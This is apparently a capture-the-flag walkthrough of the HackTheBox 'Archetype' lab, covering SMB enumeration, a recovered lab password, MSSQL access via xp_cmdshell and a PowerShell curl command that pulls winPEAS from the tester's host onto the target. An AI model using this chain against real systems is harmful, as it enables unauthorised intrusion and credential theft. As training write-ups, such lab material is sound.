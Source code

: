 ```yaml
---
title: HTB [Archtype]
date: 2022-09-25 01:28:05 +0200
categories: [windows,smb,mssql,winpeas]
tags: [HTB Starting point]
excerpt: This is a hackthebox starting point machine that deals with SMB, MSSQL protocols
---
```


## Archtype

![](https://i.imgur.com/CL1WkMf.png)

### Nmap scan

```js
Nmap scan report for 10.129.94.188
Host is up (0.43s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
|_ssl-date: 2022-09-25T04:12:07+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-09-25T03:57:39
|_Not valid after:  2052-09-25T03:57:39
| ms-sql-ntlm-info:
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| ms-sql-info:
|   10.129.94.188:1433:
|     Version:
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h24m00s, deviation: 3h07m52s, median: 0s
| smb2-time:
|   date: 2022-09-25T04:11:48
|_  start_date: N/A
| smb-os-discovery:
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-09-24T21:11:52-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.48 seconds
```

#### Task 1
**Which TCP port is hosting a database server?**

`1433`


#### Task 2
**What is the name of the non-Administrative share available over SMB?**

`backups`

![](https://i.imgur.com/YXuztRL.png)



#### Task 3
**What is the password identified in the file on the SMB share?**

`M3g4c0rp123`

![](https://i.imgur.com/dXMtYoU.png)

![](https://i.imgur.com/0IzxCI2.png)

you can find a password in that `prod.dtsConfig` file



#### Task 4

**What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?**

that's `mssqlclient.py`


#### Task 5

**What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?**

`xp_cmdshell`

![](https://i.imgur.com/Iq7zVka.png)
- you need to `enable_xp_cmdshell` in order to use it  
- you can find more info about mssql enumeration [here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)



#### Task 6

**What script can be used in order to search possible paths to escalate privileges on Windows hosts?**

`winpeas`

- Now let's start a python server in local to transfer the winpeas to the machine

```powershell
xp_cmdshell "powershell -c curl -o C:\Users\sql_svc\Downloads\priv.exe http://10.10.16.18/winPEASx86.exe"
```


#### Task 7

**What file contains the administrator's password?**

`ConsoleHost_history.txt`

- Run winpeas

![](https://i.imgur.com/YLmlvFH.png)
- Let's look into this file

![](https://i.imgur.com/mFI3Klu.png)

- Now login with evil winrm and submit the flags

![](https://i.imgur.com/eTyzVOT.png)

- That's all!!
